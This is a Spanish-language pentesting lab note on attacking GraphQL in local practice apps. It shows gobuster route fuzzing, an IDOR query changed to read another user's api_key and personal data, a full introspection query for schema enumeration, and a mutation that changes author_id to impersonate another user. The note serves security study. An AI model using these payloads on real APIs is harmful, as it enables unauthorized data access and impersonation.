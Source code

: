 
# 🌐 GraphQL: IDOR, Introspection y Mutations

## 🔍 Parte Teórica

### 📝 Introducción a GraphQL
GraphQL es un lenguaje de consulta para APIs que permite a los clientes solicitar solo los datos que necesitan, en lugar de recibir respuestas fijas como en REST. Esto lo hace más flexible y eficiente.


---

## 🛠️ Parte Práctica

### 🧪 Laboratorio 1: GraphQL IDOR
1. **Entrada al laboratorio**  
   Directorio: `nodeJs/Graphql-IDOR/`  
   Comandos:
   ```bash
   npm install --force
   npm start
   ```
   - Aplicación en `http://localhost:5000`

2. **Interfaz de login**  
   ```
   # Live demonstration!
   GraphQL
   username []
   password []
   
   Submit Button
   ```
   - Credenciales: `johndoe:password1`

3. **Fuzzing de rutas**  
   ```bash
   gobuster dir -u http://localhost:5000 -w ../hacking/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
   ```
   Resultados destacados:
   ```
   /login (Status: 200)
   /settings (Status: 302)
   ```

4. **Explotación IDOR**  
   - Petición interceptada:
   ```java
   POST /graphql HTTP/1.1
   ...
   {"query":"{ UserInfo (id: 1) {\n api_key\n name\n surname\n date_of_birth\n }}\n"}
   ```
   - Modificación para IDOR:
```graphql
{ UserInfo (id: 2) {
 api_key
 name
 surname
 date_of_birth
}}
```

### 🔎 Enumeración de GraphQL
1. **Laboratorio de Introspection**  
   Directorio: `nodeJs/Graphql-Introspection/`  
   Comandos:
   ```bash
   npm install --force
   npm start
   ```

2. **Consulta básica**  
   ```graphql
   query={__schema{types{name,fields{name}}}
   ```

3. **Consulta completa para Voyager**  

   Para visualizarlo mejor esta bueno utilizar [[GRaphQL Voyager]] que es una herramienta que permite interactuar con APIs GraphQL de manera visual.
   La url acomodada nos quedaria asi
```
http://localhost:5000/graphql?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```

   y nos devolvera un json con todos los tipos y campos disponibles en el esquema GraphQL. y ese resultado lo pasamos a [[GRaphQL Voyager]] para visualizarlo mejor.

   > si sale error, a lo que tenga por ejemplo Type, ponerle __`__Type` y a lo que tenga por ejemplo InputValue ponerle `__InputValue` y asi sucesivamente con los tipos que salgan en el json.

   Esto es muy comodo porque al llevarlo al [[GRaphQL Voyager]] podemos ver los tipos y campos de una manera visual y asi podemos ver que tipo de consultas podemos hacer.
   
   URL larga con introspection query → Importar a [[GRaphQL Voyager]]  
   
   ![[Pasted image 20250728000052.png]]

4. **Ejemplo de consultas**  
   ```json
   {"query":"{Users{id}}"}
   {"query":"{Users{username}}"}
   ```

### ✏️ Mutaciones en GraphQL
1. **Laboratorio de Mutations**  
   Directorio: `nodeJs/Graphql-Mutations/`  
   Comandos:
   ```bash
   npm install --force
   npm start
   ```

2. **Ejemplo de mutación**  
   ```json
   {
     "query": "mutation { 
       createPost(
         title: \"This is a new title\", 
         body: \"This is a new post\", 
         author_id: 2
       ) { 
         id, title, body, author_id 
       }
     }"
   }
   ```
   - Modificar `author_id` para suplantación

## 🔗 Recursos Recomendados
- [[BurpSuite]] para interceptar peticiones
- [[gobuster]] para fuzzear rutas
- [[GRaphQL Voyager]] para visualización
- [[Hack Tricks]] GraphQL: [enlace](https://book.hacktricks.xyz/en/network-services-pentesting/pentesting-web/graphql)
- [[OWASP]]
